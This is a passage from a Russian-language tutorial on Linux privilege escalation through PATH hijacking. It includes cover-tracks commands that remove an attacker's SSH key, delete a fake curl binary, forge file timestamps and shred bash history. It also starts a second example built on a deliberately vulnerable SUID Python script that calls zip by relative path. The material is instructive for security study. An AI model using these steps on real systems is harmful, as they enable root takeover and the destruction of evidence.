 
#### Шаг 6: Маскировка изменений
```bash
# Возвращаем оригинальный файл в authorized_keys, удаляя следы своего ключа
mv /root/.ssh/authorized_keys.bak /root/.ssh/authorized_keys

# Удаляем вредоносный curl из системы, предотвращая повторное срабатывание и обнаружение
rm /home/user/.local/bin/curl

# Восстановление временных меток
touch -r /etc/crontab /etc/cron.user_profile

# Удаление истории команд
shred -zu ~/.bash_history
history -c
```

#### Выводы по атаке:
1. **Привилегированный контекст:**
   - Cron-задача выполняется от имени **root**
   - Любые команды в скрипте наследуют права root
2. **Относительный путь:**
   - Вызов `curl` без `/usr/bin/` делает его зависимым от PATH
3. **Контроль над окружением:**
   - Атакующий может модифицировать PATH через пользовательские файлы
   - Символическая ссылка заставляет cron загружать пользовательские настройки
4. **Маскировка:**
   - Вредоносный скрипт вызывает настоящий curl
   - Основная функция скрипта продолжает работать нормально
   - Администратор не замечает аномалий в работе системы

---

### Пример 2: Эксплуатация уязвимого Python-скрипта с вызовом `zip`
> Есть системный SUID-скрипт `/usr/local/bin/backup_reports`, используемый для архивирования финансовых отчетов:
```python
#!/usr/bin/python3
import os
import subprocess

def create_backup():
    # Уязвимый вызов - zip без абсолютного пути
    subprocess.call(["zip", "-r", "/backups/reports.zip", "/var/reports"])
    
if __name__ == "__main__":
    create_backup()
    print("Backup completed successfully")
```

**Данные скрипта в системе:**
```bash
ls -l /usr/local/bin/backup_reports
# -rwsr-xr-x 1 root root 582 May 15 10:23 /usr/local/bin/backup_reports
```
- Установлен SUID-бит (запускается с правами root)
- Вызывает `zip` без указания абсолютного пути (`/usr/bin/zip`)

---
